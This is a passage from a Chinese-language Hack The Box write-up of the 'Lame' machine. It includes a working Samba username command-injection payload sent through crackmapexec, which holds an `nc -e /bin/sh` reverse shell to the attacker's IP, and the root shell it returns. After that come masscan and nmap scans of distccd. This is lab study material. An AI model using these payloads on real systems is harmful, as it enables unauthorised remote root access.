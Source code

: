 ### crackmapexec

来自参考文献2

`more /usr/share/exploitdb/exploits/unix/remote/16320.rb` 分析漏洞利用脚本，发现name 字段为

```ruby
 &#34;/=`nohup &#34; &#43; payload.encoded &#43; &#34;`&#34;
```



```shell
 $ crackmapexec smb --shares 10.10.10.3 -u &#39;./=`nohup nc -e /bin/sh 10.10.14.2 4445`&#39; -p &#39;&#39;                                           
 SMB         10.10.10.3     445   LAME             [*] Unix (name:LAME) (domain:hackthebox.gr) (signing:False) (SMBv1:True)
```

另一边做监听`$ nc -lvnp 4445`

```shell
 $ nc -lvnp 4445
 listening on [any] 4445 ...
 connect to [10.10.14.2] from (UNKNOWN) [10.10.10.3] 59300
 whoami
 root
```

Metasploit 使用 nohup 命令，即 no hang up的缩写，这是 Linux 系统中的一个命令，即使在退出 shell 或终端并在当前上下文之外启动进程然后是有效负载之后，它也能保持进程运行。

总结：Lame 是利用Samba的命令注入漏洞直接获取root权限

## 4. distccd

看了参考文献2后，才发现还少了一个点没有发现，这边我不写了，直接看原文吧。

------

想了想还是再从这个点再做一次，多练习练习。

nmap 默认扫描未发现该端口，需要进行全端口才可以。这里用masscan快速扫描

```shell
 $ sudo masscan -e tun0 -p- --max-rate 500 10.10.10.3
 Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2022-03-17 05:45:11 GMT
 Initiating SYN Stealth Scan
 Scanning 1 hosts [65535 ports/host]
 Discovered open port 139/tcp on 10.10.10.3 
 Discovered open port 22/tcp on 10.10.10.3  
 Discovered open port 445/tcp on 10.10.10.3 
 Discovered open port 3632/tcp on 10.10.10.3 
 Discovered open port 21/tcp on 10.10.10.3
```

nmap 做细分扫描，扫特定端口的服务详情，并用上NSE

```shell
 $ sudo nmap -T4 -sSV -sC -p3632 10.10.10.3          
 Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-17 13:52 HKT
 Nmap scan report for 10.10.10.3
 Host is up (0.29s latency).
 
 PORT     STATE SERVICE VERSION
 3632/tcp open distccd distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
 
 Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
 Nmap done: 1 IP address (1 host up) scanned in 8.28 seconds
 
 $ locate *.nse | grep distcc
```